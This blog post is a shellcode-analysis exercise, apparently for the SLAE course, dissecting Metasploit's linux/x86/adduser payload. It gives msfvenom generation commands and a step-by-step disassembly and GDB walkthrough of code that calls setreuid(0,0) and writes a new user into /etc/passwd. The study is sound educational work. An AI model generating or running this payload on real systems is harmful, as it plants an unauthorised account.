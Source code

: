 ```yaml
---
layout: post
title: SLAE Exercise 5 (part 3) - Add User
subtitle: Shellcode Analysis 3 - Add User
tags: [SLAE]
---
```


linux/x86/adduser
======

The final chosen shellcode to be used from msfvenom is the 'adduser' payload. This adds a user to the system that it is executed on. The parameters to be used for this payload can be seen with the following command:

    msfvenom -p linux/x86/adduser --payload-options
	
From this it can be seen that there are two required payloads:

![payloadoptions](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/payloadoptions.png)

To keep things simple, these default options will be left, which should create the user with the username and password of 'metasploit'. The command that is used to create a payload that will create the new user is as below:

	msfvenom -p linux/x86/adduser  -f raw > adduserraw

Once this has been generated it can be disassembled using ndisasm to analyse the instructions used with the following command:

	ndisasm -b 32 ./adduserraw

![ndisasm](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/ndisasm.png)


Stepping through the instructions
------

Each of the instructions seen here will be stepped through, describing what is happening at each step. 

**Setreuid**

int setgid(gid_t gid);

The 'setreuid' syscall sets the real and/or effective user or group ID of the calling process. As both values set are 0 the running process will have permissions to modify the 'passwd' file. 

```
Xor ecx, ecx - Clears the ecx register.

Mov ebx, ecx - Move 0 to the ebx register, clearing it.

Push byte +0x46 -	Pushes 70 to the stack.

Pop eax	Pop 70 from the stack into eax for the syscall 'setreuid'

Int 0x80 - An interupt which will call 'setreuid'.
```

**Open**

int open(const char *pathname, int flags, mode_t mode);

For this shellcode, the 'open' syscall is used to open the file that is to be written to in order to add the new user. This is the 'passwd' file found at '/etc/passwd. This can be seen in the below instructions pushed to the stack and then pointed to by ebx: 

```
Push byte +0x5 - Push 5 to the stack.

Pop eax - Pop 5 from the stack into eax for the 'open' syscall.

Xor ecx, ecx - Clear the ecx register.

Push ecx - Push 0 to the stack from the cleared ecx register.

Push dword 0x64777373 - These instructions push '/etc//passwd' to the stack.
Push dword 0x61702f2f	
Push dword 0x6374652f	

Mov ebx, esp - Move the stack pointer into ebx to be a pointer to the pathname to open.

Inc ecx - Increment ecx to be 1.

Mov ch, 0x4 - Move 4 to ch.

Int 0x80 - Interupt to call the 'open' syscall
```

**Write**

ssize_t write(int fd, const void *buf, size_t count);

The 'write' syscall is used to add the new user to the file that was opened previously. This is done using the returned file descriptor. The call value couldn't be completely observed within the disassembled code obtained from Ndisasm previosuly. From debugging the shellcode with GDB the following instuctions could be observed:

![writeinstructions](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/realinstructions.png)

```
Xchg ebx, eax - Move the return value of the 'open' syscall into ebx. The return value is the file descriptor.

Call 0x80480a7 - Call 0x80480a7, which will start from the instruction 'pop ecx'. This is used as a call-pop to get the address of the value required onto the stack.

Insd - The following contain the value that is pointed to from using 'call', and so hold no significance as instructions. 
Gs jz 0x90	
Jnc 0xa1	
Insb	
Outsd	
Imul esi, [edx+edi+0x41], dword 0x49642f7a	
Jnc 0xa7	
Xor al, 0x70	
Xor al, 0x49	
Push edx	
Arpl [edx], di	
Xor [edx], bh	
Xor [edx], bh	
Cmp ch, [edi]	
Cmp ch, [edi]	
Bound ebp, [ecx+0x6e]	
Das	
Jnc 0xba	
Or bl, [ecx-0x75]	

pop ecx	- Move the pointer from 'call' into ecx for the required *buf parameter. 

mov edx, DWORD PTR [ecx-0x4] - Move the required count into edx, this call writes up to 'count' bytes from the buffer sepcified in ecx.

push 0x4 - Push 4 to the stack.

pop 0x4 - Pop 4 to eax to be used for the syscall 'write'.

Int 0x80 - Interupt to call the 'write' syscall.
```

**Exit**

The instructions for this section are as follows:

```
Push byte +0x1	Push 1 to the stack to be used for the exit syscall
Pop eax	Pop 1 to eax for the exit syscall
Int 0x80	Interupt calling the syscall to exit gracefully
```

Strace
------

Strace was utilised to observe the syscalls used and the parameters. The command used and screenshot of the output can be observed below:

    msfvenom -p linux/x86/adduser  -f elf > adduserelf

![Strace](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/strace.png)


GDB
------

To observe the shellcode executing within GDB, the elf payload created will be analysed. The command used to create this code is as follows:

    msfvenom -p linux/x86/adduser  -f elf > adduserelf

With the created payload, there are no symbols within the binary and so 'readelf' has to be used to find the entry point for the binary. This can be run as follows:

    Readelf --headers ./adduserelf

The output of this is as below:

![readelf](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/readelf.png)

As can be seen, the entrypoint in this instance would be the address '0x8048054'. This can now be observed within GDB when setting a breakpoint at this address and running the program:

![gdbinstructions](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/gdbinstructions.png)


**Setreuid**

Just before the first syscall for 'setreuid', the registers were examined to determine if they were as would be expected from the earlier analysis:

![setreuid](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/setreuidregisters.png)


**Open**

As part of the 'open' syscall 3 values are pushed to the stack which are subsequently pointed to within the ebx register. The instructions can be seen below:

![openpush](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/openpush.png)

Once these have been pushed to the stack, the values can be observed:

![etcpasswd](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/etcpasswd.png)

It is clear that '/etc//passwd' is pushed to the stack to be pointed to within ebx to be the file that will be written to. This is where the new user will be inserted. 

Interestingly here, 0x4 is moved into ch to change the value of ecx from 0x1 (1) to 0x401 (1025). This is for the 'flags' parameter of the syscall. The values of the registers before the syscall is called can also be observed within this screenshot. Note that the value of ebx is the same as esp and is pointing to the  '/etc//passwd' value discussed before:

![flags](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/flags.png)


**Write**

The values of the registers before the next syscall 'write' are observed. The value in ebx is the file descriptor that was returned from the 'open' syscall, the ecx register will be discussed below, and the edx register contains the size to be written. This wasn't seen in the Ndisasm dissasembly and within GDB used the following instruction to get the required size:

    Mov edx, DWORD PTR [ecx-0x4]
	
The value pointed to within ecx is the pointer that was pushed to the stack when 'call' was used. It can be seen that this contains the values to write to the opened file:

![examineecx](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/writepointer.png)

The values in the register before the syscall:

![writeregisters](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/writesyscall.png)


**Exit**

The rest of the shellcode gracefully exits the program which will not require walking through. 

